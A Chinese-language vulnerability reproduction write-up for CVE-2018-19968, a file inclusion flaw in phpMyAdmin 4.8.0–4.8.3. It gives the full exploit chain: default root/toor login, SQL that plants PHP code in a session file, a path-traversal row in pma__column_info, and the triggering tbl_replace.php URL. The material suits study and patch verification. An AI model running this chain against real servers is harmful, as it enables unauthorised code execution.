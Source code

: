# （CVE-2018-19968）Phpmyadmin 文件包含漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3083](https://www.zhihuifly.com/t/topic/3083)

# （CVE-2018-19968）Phpmyadmin 文件包含漏洞

## 一、漏洞简介

Transformation是phpMyAdmin中的一个高级功能，通过Transformation可以对每个字段的内容使用不同的转换，每个字段中的内容将被预定义的规则所转换。比如我们有一个存有文件名的字段 ‘Filename’，正常情况下 phpMyAdmin 只会将路径显示出来。但是通过Transformation我们可以将该字段转换成超链接，我们就能直接在 phpMyAdmin 中点击并在浏览器的新窗口中看到这个文件。

通常情况下Transformation的规则存储在每个数据库的pma__column_info表中，而在phpMyAdmin 4.8.0~4.8.3版本中，由于对转换参数处理不当，导致了任意文件包含漏洞的出现。

## 二、漏洞影响

Phpmyadmin 4.8.0~4.8.3

## 三、复现过程

1、首先登陆进后台，这里默认是root, toor

![image](img/a4b5bebf12d3983bc6ae6845cadd02f3.png)

2、创建数据库，并将PHP代码写入SESSION文件中

```
CREATE DATABASE foo;
CREATE TABLE foo.bar ( baz VARCHAR(100) PRIMARY KEY );
INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>'; 
```

访问http://www.0-sec.org/chk_rel.php?fixall_pmadb=1&db=foo在数据库foo中生成phpMyAdmin的配置表。

![image](img/07cf551b7d9217f5021975d024ac1776.png)

将篡改后的Transformation数据插入表pma__columninfo中将sess_***中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值，抓包查看session id，如下

![image](img/800a3c5bf8dd880a0219d2450fb46d1c.png)

```
INSERT INTO pma__column_info SELECT '1', 'foo', 'bar', 'baz', 'plop', 'plop', 'plop', 'plop', '../../../../../../../../tmp/sess_***','plop'; 
\#将sess_***中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值 
```

![image](img/5efac406f0811d415d0d16ea22bdbcd8.png)

然后访问

http://www.0-sec.org/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1 就能自动包含刚才插入数据库表的恶意代码

![image](img/30961b75c3789cf7a3f64f83f67911c8.png)